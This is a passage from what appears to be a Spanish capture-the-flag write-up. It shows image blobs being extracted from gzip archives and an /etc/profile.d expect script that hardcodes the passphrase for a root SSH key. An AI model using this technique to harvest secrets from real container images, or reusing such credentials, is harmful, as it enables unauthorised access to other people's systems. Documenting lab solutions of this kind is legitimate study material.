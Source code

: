 Una vez nos descarguemos todos.
![Write-up Image](images/Screenshot_12.png)

Podemos ver que estos blobs son archivos gzip.
```console
$ file sha256_02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c 
sha256_02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c: gzip compressed data, original size modulo 2^32 3072
```

Podemos extraer todos los archivos.

```console
mkdir extract
```

```console
for file in $(ls | grep sha); do tar -xvf $file -C extract/; done
```

En `/etc/profile.d/` existen algunos scripts, en este directorio se ejecutan automáticamente los scripts cuando un usuario inicie sesión de shell.

```console
cat *
# Make sure the locale variables are set to valid values.
eval $(/usr/bin/locale-check C.UTF-8)
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```
